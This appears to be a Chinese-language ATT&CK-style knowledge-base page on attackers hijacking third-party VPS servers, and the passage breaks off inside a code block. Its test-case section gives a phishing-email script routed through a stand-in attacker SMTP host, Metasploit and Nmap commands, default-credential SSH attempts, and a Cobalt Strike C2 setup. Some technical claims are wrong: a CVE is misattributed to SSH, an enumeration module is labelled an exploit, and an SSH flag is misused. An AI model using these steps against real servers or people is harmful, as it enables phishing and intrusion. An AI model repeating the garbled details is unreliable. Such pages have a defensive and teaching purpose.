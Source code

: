 # T1584-003-入侵基础设施-虚拟专用服务器

## 描述
在入侵目标组织之前，攻击者可能通过劫持第三方虚拟专用服务器（VPS）来支持目标定位和攻击执行。VPS是一种通过虚拟化技术（如容器或虚拟机）将物理服务器分割为多个独立虚拟服务器的服务，每个VPS拥有独立的公网IP、操作系统、磁盘空间、内存和CPU资源。攻击者通过入侵第三方拥有的VPS，可以利用其高声誉和普遍性开展恶意活动，如命令与控制（C2）、钓鱼网站托管或恶意软件分发，同时增加被追踪的难度。

攻击者可能通过以下方式入侵VPS：
- **凭据窃取**：通过钓鱼、凭据填充或恶意软件获取VPS管理员的账户凭据。
- **漏洞利用**：利用VPS操作系统或服务（如未修补的Linux内核、Apache、SSH）的漏洞获得控制权。
- **社会工程**：通过伪装身份攻击VPS提供商的客户支持，获取账户访问权限。
- **弱配置利用**：利用默认密码、开放端口或错误配置的服务（如未保护的RDP、SSH）入侵VPS。

入侵的VPS可用于后期攻击阶段，如C2通信（T1102）、数据泄露（T1567）或钓鱼（T1566），并因其托管在知名云服务提供商（如AWS、DigitalOcean）而更难被检测。

## 测试案例
以下是模拟攻击者入侵VPS的常见方法和案例：
- **凭据窃取**：
  - 通过钓鱼邮件获取VPS管理员的登录凭据。
  - 示例：伪装为VPS提供商（如DigitalOcean）发送密码重置邮件：
    ```python
    import smtplib
    from email.mime.text import MIMEText
    msg = MIMEText("Reset your password: http://fake-vps.com/reset")
    msg['Subject'] = 'Urgent: VPS Account Reset'
    msg['From'] = 'support@fake-vps.com'
    msg['To'] = 'admin@target.com'
    with smtplib.SMTP('smtp.attacker.com') as server:
        server.login('user', 'pass')
        server.send_message(msg)
    ```
- **漏洞利用**：
  - 利用未修补的SSH漏洞（如CVE-2019-0211）入侵VPS。
    ```bash
    # 使用Metasploit攻击SSH漏洞
    msfconsole
    use exploit/linux/ssh/openssh_userenum
    set RHOST <VPS_IP>
    exploit
    ```
- **弱配置利用**：
  - 扫描VPS的开放端口，尝试默认凭据登录SSH或RDP。
    ```bash
    # 使用Nmap扫描开放端口
    nmap -p 22,3389 <VPS_IP>
    # 尝试默认SSH登录
    ssh admin@<VPS_IP> -p default_password
    ```
- **VPS用途**：
  - **C2服务器**：在入侵的VPS上部署Cobalt Strike：
    ```bash
    # 启动Cobalt Strike
    ./teamserver <VPS_IP> <password> /path/to/profile
    ```
  - **钓鱼网站**：托管伪装的登录页面：
    ```html